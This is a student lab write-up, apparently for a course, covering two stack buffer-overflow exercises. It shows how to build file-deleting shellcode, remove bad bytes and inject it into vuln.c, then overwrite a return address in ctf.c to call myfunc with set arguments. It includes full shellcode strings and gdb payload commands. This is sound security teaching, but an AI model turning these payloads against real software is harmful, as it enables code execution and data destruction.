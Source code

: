 # Lab2
---
## Task 1: Inject code to delete file
**Source code: .asm file**
![alt text](./Image/image-19.png)
**Run virtual environment by docker file**
`docker run -it --privileged -v "C:/Users/ToanKhoa/Desktop/WorkSpace/IS (2024)/Security-labs:/home/seed/seclabs" img4lab`
![alt text](./Image/image-20.png)
**Run file asm and get the shellcode**
1. `nasm -g -f elf file_del.asm`
2. `ld -m elf_i386 -o file_del file_del.o`

**Get shellcode:**
- `for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`
> We have the shellcode: \xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\

->  We remove \xdummyfile because it is not meaningful hexadecimal code.

**Here, we will use the vuln.c program to trigger a buffer overflow.**
![alt text](./Image/image-21.png)
**Stack frame**
![alt text](./Image/image-22.png)
- The goal of using the buffer overflow vulnerability this time is to execute the assembly 
code mentioned earlier to delete the file named "dummyfile." The best approach is to take the shellcode from that code, place it in the buffer area, treat it as data, and when the return occurs, return to that buffer location. At that point, the data will be read as code and executed.
- Because the buffer size is 64 bytes, we need to pass 68 bytes and 4 bytes for the return address.
- Noticing that the shellcode is already 36 bytes, we need to add 32 bytes and a 4-byte address: shellcode (36 bytes) + placement code (32 bytes) + address (4 bytes).
**Here, we will use the vuln.c program to trigger a buffer overflow**
- To verify, we will perform the following steps:
![alt text](./Image/image-24.png)
- We set breakpoint at address : **0x0804846b**
- Then we run program by: `r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'*32+'\xff\xff\xff\xff')")`
- And see result in **x/150xb $esp**
  ![alt text](./Image/image-26.png)
  ->  We observe that the first 3 bytes still correspond to the shellcode, but starting from the 4th byte, which corresponds to the newline character 0x0a, the strcpy function terminates the string, causing the interruption.
**Observing the ASCII table, we need to avoid the following characters:**
  - `0x00` because it marks the end of a string.
  - `0x09` because it's the tab character and would split the argument.
  - `0x0a` because it's the newline character and would also terminate the string.
Additionally, `0x0a` has a decimal value of 10, and upon reviewing the assembly code, we find:
![alt text](./Image/image-27.png)
**Let change file asm to this:**
![alt text](./Image/image-28.png)

**Now we go to get shellcode again:**
`\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\`
![alt text](./Image/image-30.png)
- We can see that the shellcode no longer contains values that would terminate the transmitted string, 
except for the 0x00 character at the end of the string, due to this assembly instruction:
![alt text](./Image/image-31.png)
- And we can recognize that the characters: \x64\x75\x6d\x6d\x79\x66\x69\x6c\x65 are indeed the hexadecimal representation of the string "dummyfile". We will address this issue later.
**For now, we will set the bytes of the address to 0xff. The last used byte of the shellcode will be 0x0f to prevent string termination and to identify the position of the return frame.**
- We run this in terminal:
  - `r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'\x90'*32+'\xff\xff\xff\xff')")`
  - Then result:
![alt text](./Image/image-32.png)
- At this point, the program will likely report an error because it cannot find the address 0xffffffff.
  - We need to set 0x0c to 0x00 at the address 0xffffd66b by using command: set {unsigned char} 0xffffd66b = 0x00
  - we will replace the values of 0xffffffff with the address of the buffer, which is ffffd658, in the form of \x58\xd6\xff\xff.
  > `set *0xffffd6dc = 0xffffd658`

**Result:**
![alt text](./Image/image-34.png)
`objdump -d file_del`
![alt text](./Image/image-35.png)
- As we can see, the dummyfile is start from 0xffffd6b2 not from 0x080407a in C program!
- We need to set 0xffffd6a1 to point at that using command: `set *0xffffd6a1 = 0xffffd6b2`
![alt text](./Image/image-36.png)
**Continue running the program**
![alt text](./Image/image-37.png)
-> File deleted . Done

## Task 2: Conduct attack on ctf.c
**File code**
![alt text](./Image/image-38.png)
- We need to find the address of the myfunc function and overwrite the Return Address of the vulnerable function's stack frame with this address:
`p=0x04081211` ; `q=0x44644262`
`(buf[100] + ebp(4) + ReturnA(rewrite by the myfunc's address) + s + p + q)`
= `104(padding) + the myfunc's address + 4(padding) + p(value) + q(value)`

**Run the virtual environment by docker file**
![alt text](./Image/image-39.png)
**Debug ctf.c and create ctf.out file:**
![alt text](./Image/image-40.png)
**Get the address of the myfunc function by this command:** `objdump -d ctf.out|grep myfunc`
![alt text](./Image/image-41.png)
-> So we obtain the address of the myfunc funtion: **0804851b**
**Connect gdb and run by this command:**
`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")`
- So ![alt text](./Image/image-42.png)
- So we have to create the file:
  ![alt text](./Image/image-43.png)
- We run again `r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")` in gdb ctf.out -q 
- Then we have ![alt text](./Image/image-44.png)
-  It's not understand and stop running with the debug 0x61616161 in ??
-  We need to set the exit function address in the Return Address of myfunc to return and continue running to get the value of variables p and q
  
**Get the exit's address** `objdump -d ctf.out|grep exit`
![alt text](./Image/image-45.png)
-> So we obtain the address of the exit: 080483e0
**Connect gdb and run again by this command:** `r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x83\x04\x08'+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")`
**Result**
![alt text](./Image/image-46.png)
-> **We done this lab**

**Stack Frame**
![alt text](./Image/image-47.png)
